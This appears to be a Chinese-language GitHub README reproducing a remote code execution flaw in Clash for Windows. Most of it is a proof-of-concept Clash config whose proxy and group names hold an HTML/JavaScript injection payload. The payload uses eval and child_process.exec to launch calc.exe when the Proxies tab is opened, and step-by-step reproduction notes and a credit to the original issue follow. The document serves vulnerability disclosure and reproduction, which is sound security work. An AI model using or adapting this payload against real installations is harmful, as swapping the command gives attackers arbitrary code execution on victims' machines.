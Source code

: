# Clash_for_Windows-
Clash_for_Windows远程代码执行漏洞:

1. clash介绍

A Windows/macOS/Linux GUI based on Clash and Electron.

2. 漏洞复现



从以下链接下载Windows版本：
https://github.com/Fndroid/clash_for_windows_pkg/releases

在windows10虚拟机中打开：

2.2 poc

port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    
    
    导入该poc：
    
    
    在当前界面点击：Proxies
    
    
    此时弹出计算器，漏洞利用成功。
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    原漏洞发现作者pr链接：

https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 里面包含了poc和复现方法。

本次本地复现来源于上述链接！
